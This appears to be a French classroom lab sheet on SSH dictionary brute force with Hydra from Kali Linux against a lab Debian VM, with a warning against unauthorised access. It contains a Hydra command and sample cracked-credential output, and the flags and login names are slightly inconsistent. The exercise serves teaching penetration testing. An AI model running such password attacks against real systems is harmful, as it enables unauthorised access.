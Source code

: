 # Brute force avec Hydra

🚩 Attention il est interdit d'accéder à des systèmes sans autorisation🏴‍☠️

Support : 

* VM Kalilinux avec utilisation de **Hydra**
* VM Debian 12

### Mise en situation :
Votre société Ciel_Pentester vient de réaliser un audit sur la société XX afin d’identifier la surface d’attaque. Après une cartographie complète, vous avez découvert une machine debian. 


### Objectif :

✨ Vous devez arriver à vous connecter en SSH à la machine Debian à partir de Kalilinux. Vous devez découvrir le mot de passe de la session user.

-----
Une **attaque par brute force** teste un grand nombre de combinaisons pour trouver le bon mot de passe.
Ici nous allons utiliser une variante de l'attaque brute force, **attaque par dictionnaire**


## Prérequis 1 :


-----

## Méthode

Lancer Hydra sous Kalilinux

    hydra -l idpatron -p /usr/share/wordlists/rockyou.txt -u -e s ssh://192.168.56.XX

Réponse :
>
> hydra ....
>
>...
>
>[22][ssh] host: 192.168.56.XX  login: ippatron  password: mdpdepatron
>


> [!NOTE]
> Si le mot de passe n'est pas découvert vous pouver utiliser d'autres dictionnaires, allez voir Liste_dictionnaire.md
> https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_kali/brute%20force%20avec%20john%20the%20ripper/Liste_dictionnaire.md

